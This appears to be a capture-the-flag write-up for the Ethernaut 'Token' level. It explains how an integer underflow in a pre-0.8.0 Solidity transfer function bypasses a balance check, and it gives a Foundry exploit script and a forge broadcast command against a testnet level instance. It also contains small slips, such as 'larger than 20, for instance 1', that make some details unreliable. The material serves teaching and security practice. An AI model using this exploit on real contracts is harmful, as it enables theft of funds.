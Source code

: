 ## Token

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/b4985e6e-fbb2-4e7c-ac7b-2e249f857bb4">
</p>


<br>


### tl; dr

<br>


* in this challenge, we explore a classic vulnerability in both web2 and web3 security: integer overflows.


<br>


```solidity
contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```


<br>

---

### discussion

<br>

 * programming languages that are not memory-managed can have their integer variables overflown if assigned to values larger than the variables' capacity limit.
    - we will use this trick to overflow a `uint` and bypass the `require()` check of `Token()`'s `transfer()` function:

<br>

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

<br>

 * whenever we add 1 to a variable's maximum value, the value wraps around and decreases.
    - for example, an (unsigned) `uint8`, has the maximum value of `2^8 - 1 = 255`. if we add `1` to it, it becomes `0`. same as `2^256 - 1 + 1`.
    - symmetrically, if we subtract a value larger than what the variable holds, the result wraps around from the other side, increasing the variable's value. this is our exploit.

<br>

* if we pass a `_value` to `transfer()` that is larger than `20`, for instance `1`, `balances[msg.sender] - _value` results on `uint256(-1)`, which is equal to a very large number, `2^256 – 1`.


<br>

* **[in solidity, this type of integer overflow used to be a vulnerability until version `0.8.0`](https://solidity-by-example.org/hacks/overflow/)**.
    - this is why contracts were advised to use **[OpenZeppelin' `SafeMath.sol`](https://docs.openzeppelin.com/contracts/4.x/utilities#math
)** whenever they performed integer operations.
    - in newer versions, if the code is not performing these operations, we can use `unchecked` to save gas.

<br>



----

### solution in solidity

<br>

* since this challenge is so easy, we skip tests and go direct to the submission script, `script/05/Token.s.sol`:

<br>

```solidity
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import {Token} from "src/05/Token.sol";

contract Exploit is Script {

        address levelInstance = 0x1e8407c9A9f3D689E8f48C63eaF04fe0bd549629;
        Token level = Token(levelInstance);        
        
        function run() external {

            vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
            level.transfer(0x0000000000000000000000000000000000000000, 21);
            vm.stopBroadcast();
    }
}
```

<br>

* running with:

<br>

```shell
> forge script ./script/05/Token.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>

---

### three-lines solution directly in the console

<br>

<p align="center">
<img width="600" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/c2d2db5c-feb8-469d-91b6-5b852cc5f011">
</p>

<br>


----

<br>

#### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



